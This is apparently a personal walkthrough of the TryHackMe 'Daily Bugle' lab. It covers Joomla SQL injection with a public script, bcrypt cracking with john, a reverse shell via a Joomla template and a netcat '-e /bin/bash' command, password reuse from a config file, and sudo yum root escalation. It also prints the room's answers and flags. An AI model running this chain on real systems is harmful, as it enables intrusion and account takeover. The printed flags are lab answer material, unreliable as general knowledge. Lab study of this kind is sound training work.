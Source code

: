 # Note for Daily Bugle 

```
export IP=10.10.238.214

```

## Task 1 

> Access the web server, who robbed the bank?

```
Spiderman
```

## Task 2


> What is the Joomla version?

Use gobuster to find the README.txt page.

```
3.7.0
```

> What is Jonah's cracked password?

Found this python script: https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py

And got:

```
-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session


```
OBS it's done in python2.

Need to crack the pass with john: 

```
┌──(kali㉿kali)-[~/THM/rooms/Daily_Bugle]
└─$ john hast_pass.txt --wordlist=/usr/share/wordlists/rockyou.txt                    
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:04:34 DONE (2021-10-29 07:51) 0.003643g/s 170.6p/s 170.6c/s 170.6C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

> What is the user flag?

Login and follow this: https://www.hackingarticles.in/joomla-reverse-shell/

go to http://IP/templates/beez3/index.php, remember to have a netcat open.

Stablize shell (remember to have a new netcat session open with the port 1234): 

```
nc tun0 1234 -e /bin/bash
```

Do these commands: 
```
python -c 'import pty;pty.spawn("/bin/bash");'

export TERM=xterm

CTRL + Z

stty raw -echo;fg

```

Go to /var/www/html there is a configurations file. In the configuration file there's a passwords for jjameson.

SSH to the user with the `ssh username@IP` and the password from the configuraiton file.

Get the userflag.txt

```
27a260fe3cba712cfdedb1c86d80442e
``` 

> What is the root flag?

See permissions with `sudo -l`:

```
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```

Find `yum` here to get sudo: https://gtfobins.github.io/gtfobins/yum/#sudo

Copy + paste second option and you are root

Go `/root` and get the flag:

```
eec3d53292b1821868266858d7fa6f79
```